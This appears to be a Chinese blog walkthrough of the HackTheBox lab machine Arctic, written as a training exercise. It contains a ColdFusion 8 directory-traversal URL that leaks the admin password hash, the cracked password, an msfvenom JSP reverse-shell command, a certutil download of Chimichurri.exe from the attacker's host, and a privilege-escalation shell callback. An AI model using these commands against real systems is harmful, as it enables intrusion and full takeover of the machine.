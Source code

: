 ```yaml
---
title: Hackthebox::Arctic walkthrough
date: 2021/12/28
categories: 渗透测试
tags: [渗透测试,walkthrough]
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_23.jpg
---
```




- **Arctic是hackthebox上一台简单难度的windows靶机**

# 信息收集

- 首先使用nmap进行端口扫描

![image-20211227235510440](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235510440.png)

- 再使用nmap进行简单的漏洞扫描，但是这次漏洞扫描失败了，貌似是连接问题

![image-20211227235600047](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211227235600047.png)

- 通过两次nmap扫描，我们得到了有用的信息：

```
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
```

- 浏览器打开靶机8500端口查看

![image-20211228000308471](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000308471.png)

- 点击CFIDE目录进行进一步的枚举

![image-20211228000324604](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000324604.png)

- 点击administrator文件，发现是一个登录窗口

![image-20211228000552606](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228000552606.png)

- 这个页面有关**ColdFusion 8**， 我们不知道这是什么但肯定是一个系统，百度一下，发现答案都已经快出来了

![image-20211228001208827](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001208827.png)

- 使用searchsploit查看这个是否存在漏洞

![image-20211228001306056](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228001306056.png)

- 我们发现这个存在可以利用的漏洞，貌似有文件上传和目录遍历漏洞，再使用msf看看是否可以直接利用

![image-20211228002139201](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228002139201.png)

- 都无法利用，可能是因为网络问题，接着参考别人的walkthrough，发现千篇一律的使用目录遍历漏洞，好吧我们也使用这个
- 之前我们发现网站登录页面使用了ColdFusion 8，在这之前加上adobe，然后在 exploitdb 上面查看漏洞

![image-20211228010052879](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010052879.png)

- 按照上面提到的方式，进入 `http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en` 页面，我们发现了密码的哈希值： `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` 

![image-20211228010532393](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010532393.png)

- 使用[这个网站](https://crackstation.net/)解哈希，得到密码 happyday

![image-20211228010752709](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228010752709.png)

- 使用刚才的密码以管理员的身份登录后台

![image-20211228011144857](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228011144857.png)

- 创建反向shell 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.31 LPORT=5555 > shell.jsp
```

![image-20211228014733671](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228014733671.png)

- 在靶机后台新建一个任务

![image-20211228015729922](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228015729922.png)

- 注意里面的 File填 `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

![image-20211228020036038](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228020036038.png)

- 然后我们可以看见任务已经被创建了，然后点击运行

![image-20211228021129490](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021129490.png)

- 回到 http://10.129.1.58:8500/CFIDE/ 刷新后就能看到我们上传的脚本shell.jsp 了

![image-20211228021153641](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228021153641.png)

- 本地nc监听端口，我们收到了shell

![image-20211228023926873](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228023926873.png)

- 接下来我们需要提权，使用权限提升脚本
- 使用脚本 chimichurri.exe，并在windows靶机中接收脚本

```
certutil -f -urlcache http://10.10.14.31:8000/Chimichurri.exe chimichurri.exe
```

![image-20211228025330194](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228025330194.png)

- 本地nc监听端口6666，靶机上 使用命令 

```
chimichurri.exe 10.10.14.31 6666
```

![image-20211228032510841](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032510841.png)

- 这时候本地nc就能够收到shell了

![image-20211228032556501](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032556501.png)

- 得到管理员权限，并且找到flag

![image-20211228032754084](https://herozql.oss-cn-beijing.aliyuncs.com/main/image-20211228032754084.png)

